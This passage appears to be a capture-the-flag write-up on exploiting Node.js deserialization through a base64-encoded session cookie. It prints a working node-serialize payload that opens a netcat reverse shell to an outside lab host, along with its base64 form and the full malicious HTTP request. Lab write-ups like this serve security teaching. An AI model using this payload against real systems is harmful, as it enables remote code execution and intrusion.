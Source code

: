 Click the `Send` button and notice the response:


```shell
HTTP/1.1 200 OK
Set-Cookie: session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==; Max-Age=900000; HttpOnly, Secure
Content-Type: text/html
Date: Wed, 31 Aug 2022 16:48:27 GMT
Connection: close
Content-Length: 3559

[REDACTED]

```

In the `Set-Cookie` header if we decode the session value from base64 we identify a serialized object.
- Command: `echo -n "eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==" | base64 -d`


```shell
geobour98@kali:~$ echo -n "eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==" | base64 -d
{"email":"test@test.com"}
```

## Exploitation


Go in `Decoder` in Burp Suite and craft a serialized object like this:


```javascript
{"email":"_$$ND_FUNC$$_function (){require('child_process').exec(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.200.50 443 >/tmp/f\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Click on `Encode as` and select `Base64` so the output should look like this:


```shell
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhcInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDEwLjguMjAwLjUwIDQ0MyA+L3RtcC9mXCIsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSJ9
```

Next, go to `http://10.10.121.122`, refresh the page, Intercept the request, add a `Cookie` header with the base64 encoded value into the session.

The request should look like this:


```shell
GET / HTTP/1.1
Host: 10.10.121.122
Cookie: session=eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhcInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDEwLjguMjAwLjUwIDQ0MyA+L3RtcC9mXCIsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSJ9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```
